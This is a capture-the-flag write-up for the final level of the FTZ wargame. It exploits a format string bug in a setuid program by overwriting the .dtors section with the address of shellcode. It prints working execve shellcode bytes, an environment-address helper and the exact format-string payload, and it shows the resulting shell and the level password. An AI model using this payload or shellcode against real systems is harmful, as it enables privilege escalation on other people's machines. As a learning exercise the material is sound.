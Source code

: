 # Level20 (Final Level)

## This level's goal
- FSB

***

```
[level20@ftz level20]$ ls -l
-rwsr-sr-x    1 clear    clear       11777 Jun 18  2008 attackme
-rw-r-----    1 root     level20       133 May 13  2002 hint

[level20@ftz level20]$ cat hint

#include <stdio.h>
main(int argc,char **argv)
{ 
  char bleh[80];
  setreuid(3101,3101);
  fgets(bleh,79,stdin);
  printf(bleh);
}
```

In the hint, I could see the printf(bleh) that I might exploit with FSB.

```
[level20@ftz level20]$ ./attackme
AAA
AAA
[level20@ftz level20]$ ./attackme
%x
4f
[level20@ftz level20]$ ./attackme
AAAA %x %x %x %x
AAAA 4f 4212ecc0 4207a750 41414141
```

4f means 79 in decimal, it seeams that I could exploit in fourth.

```
[level20@ftz level20]$ gdb tmp/attackme
(gdb) disass main
No symbol "main" in current context.
```

I could not see the symbol, so I will get information with objdump.

```
[level20@ftz level20]$ objdump -h attackme

attackme:     file format elf32-i386

Sections:
Idx Name          Size      VMA       LMA       File off  Algn

 18 .dtors        00000008  08049594  08049594  00000594  2**2
                  CONTENTS, ALLOC, LOAD, DATA
                  
[level20@ftz tmp]$ export EGG=`python -c 'print "\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
[level20@ftz tmp]$ cat getegg.c
#include <stdlib.h>
main() {
        printf("EGG : %p", getenv("EGG"));
}
[level20@ftz tmp]$ ./getegg
EGG : 0xbffffc8a
```

__DOTR_List's address is 0x08049594, and __DOTR_END is __DOTR_LIST + 4bytes = 0x08049598, which I will exploit with this.

I made the env variable of EGG(shell code) and then made and run getegg.c (to get EGG's address).

The attack code format   
`"AAAAAddress1BBBBAddress2%8x%8x%8x%Value1c%n%Value2c%n"`

Address1 = 0x08049598   
Address2 = 0x0804959A (Address1+2)   
Value1   = 64650(fc8a) - 40 = 64610   
Value2   = 114687(1bfff) - 64650 = 50037

```
[level20@ftz level20]$ (python -c 'print "AAAA\x98\x95\x04\x08AAAA\x9a\x95\x04\x08%8x%8x%8x%64610c%n%50037c%n"';cat) | ./attackme 

id
uid=3101(clear) gid=3100(level20) groups=3100(level20)

my-pass
clear Password is "i will come in a minute".
```


